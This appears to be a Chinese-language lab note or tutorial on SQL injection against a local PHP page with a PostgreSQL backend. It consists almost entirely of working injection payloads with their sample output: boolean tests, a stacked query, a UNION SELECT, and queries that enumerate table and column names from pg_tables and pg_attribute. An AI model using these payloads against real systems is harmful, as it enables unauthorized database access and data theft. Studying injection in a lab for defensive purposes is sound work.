 访问http://127.0.0.1/select.php?id=3-1   http://127.0.0.1/select.php?id=2 and 1=1

ID = 2 NAME = Allen ADDRESS = 25 SALARY = 15000 

堆叠注入 

 http://127.0.0.1/select.php?id=2;select * from test

ID = 1 NAME = jambolt ADDRESS = 123456 SALARY = 

联合查询

http://127.0.0.1/select.php?id=3 UNION SELECT '1','2','3','4','5'--

ID = 1 NAME = 2 ADDRESS = 3 SALARY = 5 ID = 3 NAME = Teddy ADDRESS = 23 SALARY = 20000 

查询表名

 UNION ALL SELECT NULL,tablename,NULL,NULL,NUll FROM pg_tables WHERE schemaname IN ('public')

获取字段名

```
UNION SELECT NULL,attname,NULL,NULL,NULL FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='tbuser' AND nspname='public'--
```